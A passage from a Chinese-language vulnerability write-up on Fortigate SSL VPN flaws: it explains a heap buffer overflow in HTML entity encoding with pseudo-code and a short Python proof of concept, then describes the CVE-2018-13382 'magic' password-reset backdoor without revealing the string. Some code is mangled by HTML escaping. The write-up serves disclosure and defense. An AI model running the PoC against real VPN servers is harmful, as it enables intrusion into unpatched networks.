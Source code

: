 目标分2阶段对HTML实体代码进行编码。服务器首先会计算编码字符串所需的缓冲区大小，然后将编码结果存放到该缓冲区中。举个例子，在计算阶段，`&lt;`字符串的编码结果为`&lt;`，这样就会占用5个字节。如果服务器碰到了以`&amp;#`开头的字符串（比如`&lt;`），就认为该字符出已经经过编码，会直接计算字符串长度，例如：

```
c = token[idx];
if (c == '(' || c == ')' || c == '#' || c == '&lt;' || c == '&gt;')
    cnt += 5;
else if(c == '&amp;' &amp;&amp; html[idx+1] == '#')
    cnt += len(strchr(html[idx], ';')-idx);
```

然而，长度计算过程以及编码过程中存在不一致的部分，编码部分并没有充分考虑到这种情况。

```
switch (c)
`{`
    case '&lt;':
        memcpy(buf[counter], "&lt;", 5);
        counter += 4;
        break;
    case '&gt;':
    // ...
    default:
        buf[counter] = c;
        break;
    counter++;
`}`
```

如果我们输入恶意字符串`&amp;#&lt;&lt;&lt;;`，那么`&lt;`仍然会被编码为`&lt;`，因此结果会变成`&amp;#&lt;&lt;&lt;;`。这显然比预期的6字节长度要大，因此会造成堆缓冲区溢出。

PoC：

```
import requests

data = `{`
    'title': 'x', 
    'msg': '&amp;#' + '&lt;'*(0x20000) + ';&lt;', 
`}`
r = requests.post('https://sslvpn:4433/message', data=data)
```

### [CVE-2018-13382](https://fortiguard.com/psirt/FG-IR-18-389)：magic后门

在登录页面，我们找到了一个特别的参数：`magic`。一旦该参数值匹配硬编码的一个字符串，我们就可以修改任何用户的密码。

[![](https://p1.ssl.qhimg.com/t01e6d6a998f1b5f876.png)](https://p1.ssl.qhimg.com/t01e6d6a998f1b5f876.png)

根据我们的调查结果，目前还有许多Fortigate SSL VPN没有打上补丁。因此，考虑到这个漏洞的严重程度，我们并不会公布这个魔术字符串。然而，来自CodeWhite的研究人员已经[复现](https://twitter.com/codewhitesec/status/1145967317672714240)了这个漏洞，因此其他攻击者很快也会成功利用这个漏洞。请大家尽快更新手头上的Fortigate ASAP。
